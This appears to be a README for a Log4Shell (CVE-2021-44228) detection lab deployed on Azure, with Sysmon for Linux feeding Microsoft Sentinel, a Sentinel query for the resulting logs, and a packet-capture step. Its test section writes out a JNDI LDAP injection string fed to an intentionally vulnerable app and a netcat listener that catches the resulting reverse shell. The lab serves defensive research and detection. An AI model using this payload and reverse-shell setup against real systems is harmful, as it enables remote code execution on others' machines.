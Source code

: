 # CVE-2021-44228 Log4Shell Research Lab Environment

[![Deploy to Azure](https://aka.ms/deploytoazurebutton)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FLinux%2Fdemos%2FCVE-2021-44228-Log4Shell%2Fazuredeploy.json)

## Metadata

* **Author:** [Roberto Rodriguez (@Cyb3rWard0g)](https://twitter.com/Cyb3rWard0g)
* **Deployment time:** 5-10 mins

## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
* 2 Linux VMs: `Ubuntu 18.04.6 LTS` - Kernel release: `5.4.0-1059-azure `
    * `UBUNTU5`
        * [Log Analytics Agent for Linux](https://github.com/microsoft/OMS-Agent-for-Linux) installed
        * It connects to the Microsoft Log Analytics workspace defined in the template.
        * [Syslog Data Connector](https://docs.microsoft.com/en-us/azure/sentinel/connect-syslog) enabled
        * Linux Syslog Facilities collected
            * `user`
        * [Sysmon for Linux installed](https://github.com/Sysinternals/SysmonForLinux)
            * [Sysmon for Linux installer](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh)
            * [Sysmon configuration](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/sysmon/linux/sysmon.xml)
    * `UBUNTU6`
        * LDAP Reference server
        * Web server

## Validate Environment

### UBUNTU5
SSH to `UBUNTU5` box and check for `Sysmon for Linux` running:

```bash
service sysmon status
```
### UBUNTU6
SSH to `UBUNTU6` box to make sure the `LDAPRefServer` and `Nginx (Web Server)` are running:

```bash
docker ps

docker logs --follow ldap-server
docker logs --follow web-server
```

## Run Basic Test

This scenario simulates an attacker using the log4j RCE vulnerability to get a reverse shell via netcat.
### UBUNTU6

Start a netcat listener on port `443`:

```
nc -lvnp 443
```

### UBUNTU5

Vulnerable app was compiled during the deployment of the Azure VM.

```
cd /opt/log4shell-lab/vulnApps/basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://192.168.2.6:1389/Run}'
```

![](../../../../resources/images/log4jshell-trigger-rce-basicjar-reverseshell4.png)

## Query Microsoft Sentinel

Check your Sysmon logs:

```
Syslog 
| extend EventID = parse_xml(SyslogMessage).Event.System.EventID 
| extend EventData = parse_xml(SyslogMessage).Event.EventData.Data 
| mv-expand bagexpansion=array EventData 
| evaluate bag_unpack(EventData) 
| extend Key=tostring(['@Name']), Value=['#text'] 
| evaluate pivot( 
    Key, any(Value), TimeGenerated, TenantId, SourceSystem, 
    EventID, Computer, Facility, SeverityLevel, HostIP, MG, Type, _ResourceId 
)
```

## Additional Features

### Collect Network Traffic via TCPDump

on `UBUNTU5`, open a new ssh session and run the following commands before running the basic test:

```bash
tcpdump -i eth0 -w log4jShell.pcap host 192.168.2.5 and host 192.168.2.6
```

You can then copy the PCAP from your Azure VM to your local endpoint:

```bash
scp user@x.x.x.x:/home/user/log4jShell.pcap C:\Users\YOU\Downloads\
```

Open the PCAP in [Wireshark](https://www.wireshark.org/):

![](../../../../resources/images/log4jshell-trigger-rce-basicjar-reverseshell-pcap.png)

## References
* https://github.com/Cyb3rWard0g/log4jshell-lab
